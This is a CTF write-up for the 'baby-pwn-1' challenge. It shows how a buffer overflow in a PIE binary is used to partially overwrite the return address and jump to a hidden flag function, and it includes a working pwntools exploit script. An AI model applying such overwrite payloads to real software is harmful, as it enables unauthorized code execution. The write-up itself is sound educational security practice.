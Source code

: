 # baby-pwn-1
> Write-up author: vreshco
## DESCRIPTION:
Kamu tau gak, Buffer Overflow bisa sangat berbahaya?

Koneksikan dengan service menggunakan command:

nc ctf.tcp1p.com 50283

## HINT:
- NONE
## STEPS:
1. First, download the binary file given, then check the binary type and it's protections.

> RESULT 64 bit binary file, not stripped.

![image](https://user-images.githubusercontent.com/70703371/216246376-2fdb7c1e-b719-4884-bfe8-3efbad3a77e9.png)


> RESULT - NO CANARY FOUND, PARTIAL RELRO 

![image](https://user-images.githubusercontent.com/70703371/216246535-68d7f683-9cda-4d79-8665-2e720bc670aa.png)


2. Let's decompile the binary.
3. Go Check the `vuln()` function.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/216247886-ac5675d9-311a-4885-b3f5-0367bd7f2151.png)


4. Based on it, there's a vuln at the `do-while`, we can control the **local_c** values by make an infinity loop, where we will set the `local_c` values beyond 121.
5. Hence we can do bufferoverflow and control the RIP.
6. But what seems odd here, there's no `flag()` function called. Since there's PIE protections hence we can't do simple ret2win. We only can change the **least significant bytes**. 
7. Let's try to disassemble the `vuln()` function using gdb.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/216251364-06dba21c-0de6-406b-af8a-1b429001bbfb.png)


8. Hmm.. There's no `flag()` function, let's check the `main()`.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/216251462-d61b2908-43d5-47be-a09a-8c3beb7c62a5.png)


9. Found it!

![image](https://user-images.githubusercontent.com/70703371/216251567-33303243-6d63-4ad2-96c5-14cdcc7438bf.png)


10. Actually it's written already in ghidra disassembler.

![image](https://user-images.githubusercontent.com/70703371/216252008-5c22afe6-c9f8-4d70-853d-a1e2e5d69d24.png)


11. Now the payloads we need to send is the padding bytes to reach the `local_c` variables, the last index of the `main()` return address, and the `flag()` call at main -> `main+23`.
12. For the padding bytes is 108 -> 104 + 4 bytes (int).

> 104 + int local_10 = 108

![image](https://user-images.githubusercontent.com/70703371/216325193-fbe36173-c3b0-4e45-8e26-170d5069bf79.png)


14. Then for the last index of main's return address is 142.

![image](https://user-images.githubusercontent.com/70703371/216325300-938eb374-3921-4dbe-a73b-3247c3bfebd6.png)


15. Flag call.

![image](https://user-images.githubusercontent.com/70703371/216325404-f8d779c1-4a0a-4dc3-9e1e-ced7070ca617.png)


16. I used **pwntools** to make the script.

> THE SCRIPT

```py
from pwn import *
import os

os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE: 
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else: 
        return process([exe] + argv, *a, **kw)


exe = './chall'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'
sh = start()

offset = b'A' * 108 # padding to reach local_c
# usage of 0xff:
# it leaves only the value in the last 8 bits, and ignores all the rest of the bits.
flagCall = (elf.sym['main']+23) & 0xff # main+23 the flag call is at +23
p = flat([
    offset,
    # use p8() because we want to control the RIP by changing the least significant bytes.
    p8(142), 
    p8(flagCall)
])

sh.sendlineafter(b'',p)
sh.interactive()
```

17. Run it remotely.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/216326524-55f27950-c45e-4375-aa4a-321c431d29c3.png)


18. Got the flag!

## FLAG

```
TCP1P{r3t_2_w1n_ch4ll_1337}
```


